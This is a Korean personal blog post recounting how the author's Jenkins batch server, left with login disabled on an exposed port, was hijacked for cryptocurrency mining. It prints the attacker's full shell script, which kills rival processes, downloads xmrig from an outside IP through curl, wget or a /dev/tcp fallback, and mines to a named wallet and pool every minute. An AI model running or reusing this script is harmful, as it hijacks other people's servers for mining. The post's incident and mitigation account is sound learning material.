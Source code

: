 ```yaml
---
title: "Jenkins 서버 해킹당한 썰"
category: "Jenkins"
tags: ["jenkins", "batch", "hacking"]
published: false
---
```


### 개요

 해킹을 당한 이 서버는 사연이 있다... 이미 해킹을 당한 적이 있는 서버였던 것이다.

 ![img1](/assets/img/2025-02-24-jenkins-hacking/img1.png)

 root 아이디의 비밀번호를 조금 쉬운걸로 해놨었는데 바로 해킹당했다. AWS에서는 키 파일로 로그인해서 생각도 하지 못하고 있었다가 안전불감증 당해버렸다. 서버를 만들어 놓고 다른 공부를 하고 있었는데 갑자기 며칠만에 크레딧이 모두 소진되었다는 문자가 날라왔다. 크레딧은 3달치 정도 사용할 수 있을텐데..? 하고 메일을 들어가보니 웬걸

  ![img2](/assets/img/2025-02-24-jenkins-hacking/img2.png)
  ![img3](/assets/img/2025-02-24-jenkins-hacking/img3.png)

  이 외에도 Dos 공격도 들어왔다고 하는데 비슷한 맥락인 것 같다. 마치 자전거 자물쇠 4자리를 0000부터 9999까지 모두 시도해보듯이 뚫릴 때까지 돌린건데 쉬운거라 뚫린 것이었다. 아침에 확인했는데 하자마자 잠이 깨며 식은 땀이 흘렀다.   
  
  내 서버 안에서 뭘 하는지 살펴볼 생각도 못해보고 일단 서버를 정지시켜놓은 다음에 고객센터에 손이 발이 되도록 빌었다. 예전에 AWS를 사용할 때 RDS에서 자동으로 주기적 스냅샷을 찍는 기능을 켜놓은 친구가 몇백만원 과금을 맞은 일이 있었다. 메일로 있는 영어 없는 영어 써가며 빌자 AWS에서는 "이번만 봐줄게 다음부턴 조심해 ㅇㅇ" 하면서 용서해줬던 일이 기억나서 나도 똑같이 한국어로 빌어보았다... 다행히 자비하신 네이버 클라우드는 없던 일로 해줬고 크레딧으로 쓰고 있던 vcpu 2개, RAM 4GB의 서버를 반납했다. 30만 크레딧은 날라갔지만 그게 중요한가 살아남는게 중요하지,, 그 후 1년동안 무료인 Micro 서버만 사용하고 있었던 것이다. 

  이 서버는 Spring Batch를 스케쥴링하는 서버로 쓰고 있는 Jenkins 서버이다. NCP Micro 서버로 무려 vcpu 1개, RAM 1GB를 지니고 있는 서버이다. 사양이 낮기 때문에 배치를 돌리는 것만으로도 허덕이며 vcpu가 1개인 탓인가 배치를 돌리는 중에는 Jenkins 페이지조차 들어가지 못하고, 뭔가 있어보이려고 모니터링 툴(Prometheus, Grafana)를 사용하고 있는데 cadvisor와 같은 에이전트와의 네트워크 I/O도 안됐다. 때문에 로그를 확인하거나 설정을 바꿔야할때면 Docker 위에서 돌아가는 Jenkins를 재시작하고 job들을 disabled한 후에 작업을 했다.   

  매일 당일 날짜에 해당하는 데이터가 잘 들어왔는지 DB 툴로 확인해보는데 유기시켜놓고 며칠 다른 공부를 하다가 어느날 보니 최근 데이터가 없는 것이었다! 저번에 API 스펙이 변경됐는데 모르고 업데이트를 안한 경우가 종종있어 며칠짜리 날렸구나 하면서 들어가봤는데...

  ![img4](/assets/img/2025-02-24-jenkins-hacking/img4.png)

  이거 뭐임?? 내가 만든게 아니다. 아무리 내가 하수여도 Jenkins 업데이트가 알아서 job으로 만들어져서 된다고??? 말도 안된다. 당장 들어가봤다(이미지는 최근에 찍은 것이다). 구성에 들어가보니 Build Steps - Execute shell에 이런 것들이 적혀있었다.

```bash
#!/bin/bash

ps aux | grep -v grep | grep -v "java\|redis\|weblogic\|mongod\|mysql\|oracle\|b52e75408\|tomcat\|grep\|postgres\|confluence\|awk\|aux\|sh"| awk "{if($3>60.0) print $2}" | xargs -I % kill -9 %

if [[ $(whoami) != "root" ]]; then
    for tr in $(ps -U $(whoami) | egrep -v "java|ps|sh|egrep|grep|PID" | cut -b1-6); do
        kill -9 $tr || : ;
    done;
fi

threadCount=$(lscpu | grep 'CPU(s)' | grep -v ',' | awk '{print $2}' | head -n 1);
hostHash=$(hostname -f | md5sum | cut -c1-8);
echo "${hostHash} - ${threadCount}";

_curl () {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

rm -rf config.json;

d () {
      curl -L --insecure --connect-timeout 5 --max-time 40 --fail $1 -o $2 2> /dev/null || wget --no-check-certificate --timeout 40 --tries 1 $1 -O $2 2> /dev/null || _curl $1 > $2;
}


test ! -s trace && \
    d http://118.189.172.141:8080/novoCRM/static/xmrig-6.4.0-linux-x64.tar.gz trace.tgz && \
    tar -zxvf trace.tgz && \
    mv xmrig-6.4.0/xmrig trace && \
    rm -rf xmrig-6.4.0 && \
    rm -rf trace.tgz;

test ! -x trace && chmod +x trace;

k() {
    ./trace \
        -r 2 \
        -R 2 \
        --keepalive \
        --no-color \
        --donate-level 1 \
        --max-cpu-usage 100 \
        --cpu-priority 3 \
        --print-time 25 \
        --threads ${threadCount:-4} \
        --url $1 \
        --user 85YFie9DTYSZtfZFSXLc3UJXqQAtWvcYc7qpR17rYxkUHa7ntTNFRsLPkFK7Ur3wp7EpJTJePTk8dSogBLquZbpR7d8Ri7e \
        --pass elf2 \
        --keepalive
}

k auto.c3pool.org:13333

```

 이 사람 고수다. 봐도 모르겠다. Linux 명령어들이라 더 모르겠다. 하지만 화가 나니 천천히 파헤쳐보자.

```bash
test ! -s trace && \
    d http://118.189.172.141:8080/novoCRM/static/xmrig-6.4.0-linux-x64.tar.gz trace.tgz && \
    tar -zxvf trace.tgz && \
    mv xmrig-6.4.0/xmrig trace && \
    rm -rf xmrig-6.4.0 && \
    rm -rf trace.tgz;

test ! -x trace && chmod +x trace;
```

 위의 내용을 이해 못해도 이 부분만 보면 해킹범의 의도를 알 수 있다. <code>xmrig</code>때문인데, 구글링을 해보면 암호화폐 채굴 오픈소스 소프트웨어라고 한다. 그렇다.. 내 서버를 채굴장으로 쓰려고 했던 것이다. 이 스크립트를 crontab(* * * * *)로 설정하여 매 분마다 실행하였다. 하지만 해킹범은 의외로 순진했다. 내 서버는 너무 구져서 웬만한 작업은 돌아가지 않는다는 것이었다.

  ![img5](/assets/img/2025-02-24-jenkins-hacking/img5.png)

그래서 다행히? 피해는? 보지않았다? 몇일치의 데이터정도...? 나름 평화롭게 마무리됐다.

### 감염 경로

 감염 경로는 포트였다. Jenkins 서버의 포트는 9090으로 8080은 cadvisor로 쓰고있었기 때문이다. 아마 8080, 9090, 8081 등과 같은 겹치면 사용하는 포트들을 전부 찔러본 것 같다. 게다가 Jenkins 서버렉때문에 로그인을 풀어놓았었다. Jenkins의 config.xml에서 <useSecurity> 항목을 false로 시켜놓는 것인데 이렇게 해놓으면 로그인창이 안뜨고 바로 메인화면으로 넘어간다. 그래서 프리패스하고 심지어 Jenkin는 권한도 있기 때문에(사실 어느정도의 권한이 있는지도 모르겠다) 스크립트를 저렇게 실행해놓은 것 같다. 인지하고 나서는 일단 네이버 클라우드 콘솔의 ACG(Access Control Gruop, AWS 보안 그룹과 비슷한듯) 설정에서 접근을 내 IP로만 할 수 있게 바꿔놓았다. 그리고 일단 Jenkins 로그인창부터 되돌리려고 했는데 안되길래 그냥 이대로 쓰고 있다. 기능은 문제없다.

 이전에 해킹을 당한적이 있음에도 안일했던거 인정한다. 하수이기 잘 모르는데 특히 보안은 더 모르고 실감도 나지 않았다(유저 권한 설정, 패스워드 복잡도 등 그저 귀찮기만함). 실감이 안나는 건 공부를 해도 어차피 숙지가 잘 안돼서 그냥 안한다. 핫한 기술들인 k8s, MSA, Kafka 등도 그래서 시도를 안해봤다. 쓸만한 인프라가 있어야 쓰지! 흠흠... 아무튼 그랬는데 직접 맞아보니 아주아주 실감이 잘 난다. 유독 이 서버만 이런다. 데이터베이스 서버로 사용하는 다른 NCP서버나 AWS 서버들은 공격시도조차 없는데 IP가 어디 털린건지 여기만 공격이 들어온다.   
 
### 서버 이전

 난 이 서버가 저주받았다고 생각하기로 했다. 성능도 개구진데(같은 스펙의 AWS 서버는 이정도는 아닌데 잘못 뽑혔나도 싶다) 해킹도 두번 당해서 터가 망했다. 그래서 서버를 옮기기로 했다. 어떻게 vcpu 1개, RAM 1GB 서버를 살려보겠다고 기본적인 스왑 메모리부터 배치 어플리케이션내의 성능 최적화나 비동기 프레임워크 webflux 이런 것도 기웃거려봤지만 사실 알고있다... 스케일업이 제일 편한 방법이라는 것을... 더 쓰다간 머리빠질 것 같다.

  그래서 백수인 주제에 큰 맘먹고 AWS Lightsail의 vcpu 2개, RAM 2GB 서버를 샀다. 내 머리털을 위해서라면 한달 12달러? 충분히 줄 수 있다. Docker와 볼륨걸어놓은 Jenkins 폴더를 통째로 압축해서 옮긴 후 새로운 서버에 볼륨을 걸어주니 예전 그대로 실행됐다(여전히 로그인창은 없다). 큰 스펙업은 아니지만 요새 눈에 띄게 머리가 맑아진 것 같다. 배치를 돌리면서도 페이지에 들어가지고 모니터링 에이전트들도 잘 동작한다. 조만간 데이터베이스 서버도 그냥 AWS RDS Freetier로 옮길까 생각하고 있다. 데이터베이스 서버도 역시 너무 느리고 계속 "Communication Link Failure" 오류가 뜨는데 커넥션 시간 늘리고 뭐해도 안되고 가끔 데이터베이스 드라이버를 못읽어온다드니 꿹딻끿뭻! 계속 배치가 멈추는 일이 발생해 여기도 스트레스가 장난아니다. 스펙은 똑같지만 혹시 옮기면 괜찮나도 싶고 그래도 안되면 데이터베이스 서버도 스펙업시킬 생각이다.  
